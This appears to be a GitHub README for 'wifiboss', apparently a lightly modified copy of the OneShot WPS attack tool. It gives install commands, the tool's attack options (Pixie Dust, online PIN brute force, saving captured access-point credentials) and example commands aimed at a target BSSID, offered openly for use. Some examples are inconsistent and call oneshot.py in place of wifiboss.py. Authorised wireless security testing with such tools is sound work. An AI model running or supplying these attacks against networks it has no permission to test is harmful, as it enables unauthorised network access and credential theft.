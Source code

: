 # wifiboss
#I just Modify This Tools,Real coder Drygdryg
installing command
#git clone https://github.com/Botspoilt/wifiboss.git
#cd wifiboss
#python3 wifiboss.py

#use command

 Termux user need Rooted phone
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output



Example


#sudo python3 wifiboss.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
Show avaliable networks and start Pixie Dust attack on a specified network:

#sudo python3 wifiboss.py -i wlan0 -K
Launch online WPS bruteforce with the specified first half of the PIN:

#sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
Start WPS push button connection:s

sudo python3 wifiboss.py -i wlan0 --pbc
Troubleshooting
"RTNETLINK answers: Operation not possible due to RF-kill"
Just run: sudo rfkill unblock wifi

"Device or resource busy (-16)"
Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with --iface-down argument.

The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
Try running OneShot with the --mtk-wifi flag to initialize Wi-Fi device driver.
